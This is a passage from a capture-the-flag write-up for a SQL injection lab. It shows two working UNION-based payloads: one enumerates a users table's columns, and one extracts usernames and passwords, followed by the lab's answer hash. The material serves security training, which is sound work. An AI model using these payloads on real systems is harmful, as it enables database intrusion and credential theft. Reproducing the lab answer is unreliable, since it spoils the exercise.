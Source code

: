 Payload: `cn' UNION select 1,COLUMN_NAME,TABLE_NAME,TABLE_SCHEMA from INFORMATION_SCHEMA.COLUMNS where table_name='users'-- -`

[![](https://github.com/DjikstraCS/CTF-Write-Ups/raw/main/Hack%20The%20box/Academy/attachments/Pasted%20image%2020220602114815.png)](https://github.com/DjikstraCS/CTF-Write-Ups/blob/main/Hack%20The%20box/Academy/attachments/Pasted%20image%2020220602114815.png)

Now that we have all the information we need, we can extract the password.

Payload: `cn' UNION select 1, username, password, 4 from ilfreight.users-- -`

[![](https://github.com/DjikstraCS/CTF-Write-Ups/raw/main/Hack%20The%20box/Academy/attachments/Pasted%20image%2020220602115214.png)](https://github.com/DjikstraCS/CTF-Write-Ups/blob/main/Hack%20The%20box/Academy/attachments/Pasted%20image%2020220602115214.png)

**Answer:** `9da2c9bcdf39d8610954e0e11ea8f45f`

---

## [](https://github.com/DjikstraCS/CTF-Write-Ups/blob/main/Hack%20The%20box/Academy/SQL%20Injection%20Fundamentals.md#reading-files)

## Reading Files

### [](https://github.com/DjikstraCS/CTF-Write-Ups/blob/main/Hack%20The%20box/Academy/SQL%20Injection%20Fundamentals.md#question-9)

### Question:

[![](https://github.com/DjikstraCS/CTF-Write-Ups/raw/main/Hack%20The%20box/Academy/attachments/Pasted%20image%2020220512182854.png)](https://github.com/DjikstraCS/CTF-Write-Ups/blob/main/Hack%20The%20box/Academy/attachments/Pasted%20image%2020220512182854.png)
